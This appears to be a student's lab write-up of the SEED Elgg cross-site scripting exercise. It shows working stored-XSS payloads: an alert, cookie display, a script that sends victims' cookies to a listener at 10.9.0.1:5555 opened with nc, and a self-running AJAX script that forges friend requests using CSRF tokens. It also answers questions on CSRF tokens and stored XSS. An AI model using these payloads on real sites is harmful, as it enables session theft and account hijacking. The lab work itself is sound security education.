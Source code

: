 # Question 1
## Task 1

First we logged in ```http://www.seed-server.com/```with the user ```alice``` and the corresponding password - ```seedalice```.
Then, in the profile page, we edit the ```Brief description``` to ```<script>alert(’XSS’);</script>```.

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7.png)

After making that change, when any user visits that profile, that code will be executed and an alert window will be displayed.

![Image 2.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7_2.png)

## Task 2

 We changed the  ```Brief description``` to ```<script>alert(document.cookie);</script>```.

 ![Image 3.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7.png)

 After making the change, when viewing the profile, an alert window was displayed showing the cookies of the user who viewed the profile.

 - Login as ```alice```:
  ![Image 4.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_2.png)
 - Login as ```boby```:
   ![Image 5.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_3.png)

## Task 3
 We changed the  ```Brief description``` to ```<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>```.
![Image 6.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7.png)
   Then we used the command ```nc -lknv 5555```to start a server that listens on port 5555, then we visited ```alice```'s profile logged as ```alice``` and then logged as ```boby```:
![Image 7.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7_1.png)
    That way, as the attacker, we were able to see the users' cockies.

## Task 4
We started by going to the ```samy```profile logged as ```alice```. We inspected it to find out what is sent to the server when a user adds a friend:
![Image 8.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7.png)
Then we completed the following code with the request to add ```samy```as friend, that we had discovered:
```<script type="text/javascript">
window.onload = function () {
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    var Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
We logged as ```samy``` and  changed the ```Brief description```to that code:

![Image 9.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_1.png)

After that we logged as ```alice``` and checked her friends:

![Image 10.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_2.png)

We visited the ```samy```profile:
![Image 11.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_3.png)
Then reloaded the page, and suddently ```alice```become friends with ```samy```:
![Image 12.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_4.png)
![Image 13.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task4_logbook7_5.png)

### Question 1

Lines ➀ and ➁ are used to dynamically extract CSRF tokens that ensure requests to the server are legitimate and originate from an authenticated session. The ```__elgg_ts``` and ```__elgg_token``` are security tokens that prevent malicious users from forging requests on behalf of a victim. These tokens are typically unique per session, and by including them in the request, the server can verify that the request comes from an authorized user and not from a malicious script.

- Line ➀: This fetches the ```__elgg_ts``` token from the Elgg framework’s security object ```elgg.security.token.__elgg_ts```. It represents a timestamp value to prevent replay attacks.
- Line ➁: This fetches the ```__elgg_token``` token from the same security object ```elgg.security.token.__elgg_token```. It acts as a unique session identifier for preventing CSRF attacks.

Both of these tokens are crucial for the integrity of the request and ensure that the action being taken (such as adding a friend) is authorized.

### Question 2

If the Elgg application only provides the Editor mode and does not allow switching to the Text mode, it can make it more challenging to launch an XSS attack. The Editor mode typically uses a rich-text editor that sanitizes user input to prevent the inclusion of dangerous HTML tags or JavaScript, which is often a barrier to XSS attacks.

However, it may still be possible to launch an attack under certain conditions:

- If the editor doesn't properly sanitize all input or allows certain HTML tags, a malicious script might still be injected through certain mechanisms (like embedding an image or a link that contains a payload).

- If there are flaws in how the application handles the input from the editor (such as improper encoding or filtering), a malicious actor might be able to inject malicious code without requiring access to the Text mode.

In summary, while the restriction to Editor mode makes it harder for attackers to directly insert JavaScript code, it does not completely eliminate the possibility of an XSS attack if the application doesn't implement strong input sanitization and output encoding.

# Question 2
The described attack can be classified as a Stored XSS attack because the malicious code is inserted into the ```Brief description``` of the user's profile. Once stored on the server, it will be executed every time someone else accesses that user's profile, without requiring direct interaction from the victim - the malicious script persists on the site and is executed each time that user's profile is accessed.

# Conclusion
This series of tasks highlights the risks of XSS and CSRF vulnerabilities. By injecting malicious scripts into user profiles, we demonstrated how attackers can steal sensitive data and manipulate user actions without direct interaction. It emphasizes the need for strong input sanitization, output encoding, and CSRF protection to prevent such attacks and secure web applications effectively.
